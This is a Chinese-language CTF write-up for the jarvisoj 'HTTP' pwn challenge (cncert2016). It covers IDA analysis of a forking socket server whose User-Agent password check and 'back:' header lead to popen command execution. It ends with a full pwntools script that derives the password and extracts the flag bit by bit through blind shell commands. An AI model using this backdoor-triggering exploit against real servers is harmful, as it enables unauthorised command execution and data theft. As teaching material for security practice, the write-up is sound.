 ```yaml
---
layout:     post
title:      jarvisoj HTTP
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Problem Description:  
>题目来源：cncert2016  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/http.49cb96c66532dfb92e4879c8693436ff  
>  
>Address:  
>pwn.jarvisoj.com:9881  
<!-- more -->


### 0x00 IDA分析

定位到 main 方法, 发现是一个socket通讯的服务端程序

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-http/0x00.png)

绑定并且监听 1807 port

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-http/0x01.png)

调用 fork 方法处理客户端请求, sub_40137C(::fd) -> handle(::fd) 方法对客户端数据进行处理

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-http/0x02.png)

跟进入, 首先将Request-header从buf读进s, 调用sub_40116C方法进行处理

注意: Request-header 尾部以 \r\n\r\n 标志结束

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-http/0x03.png)

对 User-agent 的处理

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-http/0x04.png)

if处的第2个条件, 判断 User-agent 的内容 v4 是否与特定字符串相同 

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-http/0x05.png)

if处的第3个条件, 判断  User-agnent 的内容是否含有子串 "back: "

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-http/0x06.png)

判断成功后, 调用 popen 方法执行任意命令

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-http/0x07.png)

再看看回显方法

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-http/0x08.png)

显然可以根据回显不同来对flag进行逐位猜解


### 0x01 exploit

```
#!/usr/bin/env python

from pwn import *
import os

context.log_level = 21

def get_password():
    counter = 0
    password = ""
    for i in "2016CCRT":
        password += chr(ord(i) ^ counter)
        counter += 1
    return password

def get_payload(command, password):
    payload = ""
    payload += "GET / HTTP/1.1\r\n"
    payload += "User-Agent: %s\r\n" % (password)
    payload += "back: %s\r\n" % (command)
    payload += "\r\n"
    payload += "\r\n"
    return payload

def send_payload(payload):
    Io = remote(HOST, PORT)
    Io.sendline(payload)
    result = Io.read()
    Io.close()
    return result

def execute(command):
    payload = get_payload(command, PASSWORD)
    print "[+] Payload : %s" % (repr(payload))
    return send_payload(payload)
    
def guess_one_byte(index, char):
    command = "cat flag|awk '{if(substr($1,%d,1)>\"%s\") print \"%s\"}'" % (
        index + 1, char, "A")
    print "[+] Executing : [%s]" % (command)
    response = execute(command)
    return (response[len("HTTP/1.1 ")] != "5")

def clear_screen():
    os.system("clear")

def guess(LENGTH):
    flag = ""
    for i in range(LENGTH + 1):
        RIGHT = 0x7F
        LEFT = 0x20
        P = (LEFT + RIGHT) / 2
        while True:
            clear_screen()
            print "[+] Flag : [%s]" % (flag)
            if guess_one_byte(i, chr(P)):
                LEFT = P
            else:
                RIGHT = P
            P = (LEFT + RIGHT) / 2
            print abs(RIGHT - LEFT)
            if abs(RIGHT - LEFT) < 2:
            	flag += chr(P + 1)
                break
    clear_screen()
    print "[+] Flag : [%s]" % (flag)
    return flag

PASSWORD = get_password()

# DEBUG = True
DEBUG = False

if DEBUG:
    HOST = "localhost"
    PORT = 1807
else:
	HOST = "pwn.jarvisoj.com"
	PORT = 9881
LENGTH = 39
print guess(LENGTH)
```

getflag

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-http/0x09.png)